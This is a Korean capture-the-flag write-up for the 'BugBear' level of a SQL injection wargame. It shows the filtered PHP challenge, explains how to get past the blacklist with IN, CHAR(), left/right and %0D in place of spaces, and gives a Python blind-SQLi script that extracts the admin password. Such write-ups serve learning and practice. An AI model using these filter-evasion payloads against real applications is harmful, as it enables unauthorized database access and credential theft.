

# Level 13 - BugBear

## 문제


## 문제 의도

- php 소스를 읽을 줄 아는가?
- Single Quote('), substr, ascii, =, or, and, " "(공백), LIKE, "0x"가 필터링 되었을 때 Blind SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
  /* 이번엔 Single Quote, sucstr, ascii, =, or, and, " ",
    like, 0x 등을 필터링했다. ;;*/
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

엄청 막혔던 문제다. 그동안 Blind-SQLi 할때 자주쓰던 LIKE문이 막히니 어떻게 해야할 지 감이 전혀 오지 않았는데, 인터넷에서 찾아보다보니 LIKE문과 비슷한 기능을 하는 **IN** 연산자을 찾을 수 있었다. IN 연산자는 인자로 준 문자열에 특정문자열이 있는지 판별할 수 있게 해준다. id IN("admin") 이렇게 사용하면 id에 "admin"이 들어가있는 레코드만 쿼리할 수 있게 된다.

먼저 **or 1** 로 모든 레코드를 쿼리한 다음 **&& id IN("admin")** 으로 id가 "admin"인 레코드를 쿼리한다. 그 다음 pw를 알아 내야 한다. 이땐 **IN(pw)** 로 pw필드 값을 가져와 나의 값과 비교하도록 만든다. 그런데 IN(pw)를 하면 pw 전체를 비교하게 되기 때문에 left()나 right()로 pw의 한자리씩 비교하도록 만들어야 한다. **"_(내가 비교할 문자)_ IN(right(left(pw, _비교할자리_), 1)** 으로 비교할 자리를 선택해 한 문자씩 비교해 알아내면 된다. 쿼리에서 공백은 %0D같은 거로 우회하고, or나 &&같은건 **||** 나 **%26%26(&&)** 으로 우회해야 한다. 또한 비교할 문자를 넣을때 Single Quote를 사용해야 하는데 지금은 막혔으니 **CHAR()** 함수로 SQL문에서 문자로 바꾼다.

그동안 노가다로 울며 겨자먹기로 Blind SQLi를 수행했는데 이번 문제는 도저히 안될것 같아 다른 사람의 코드를 참고하면서 Blind-SQLi를 수행할 파이썬 코드를 짰다.

```python
import urllib.request

admin = "admin"
password = ""

for pw_length in range(1, 9):
    for pw in range(48, 123):
        url1 = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php"
        url2 = "?pw=0&no=-1%0D||%0D1%0D%26%26%0Did%0Din(\""+ admin +"\")%0D%26%26%0DCHAR("+ str(pw) +")%0Din%0D(right(left(pw,"+ str(pw_length) +"),1))%23"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        res.add_header(
            "Cookie", "PHPSESSID=hn8ham9f8s1r1imi2v7h0p18o3"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            print(chr(pw))
            break
```

다음을 실행하면 admin 레코드의 pw 필드 값이 하나씩 출력되게 된다. 역시 코딩이 편해ㅎ


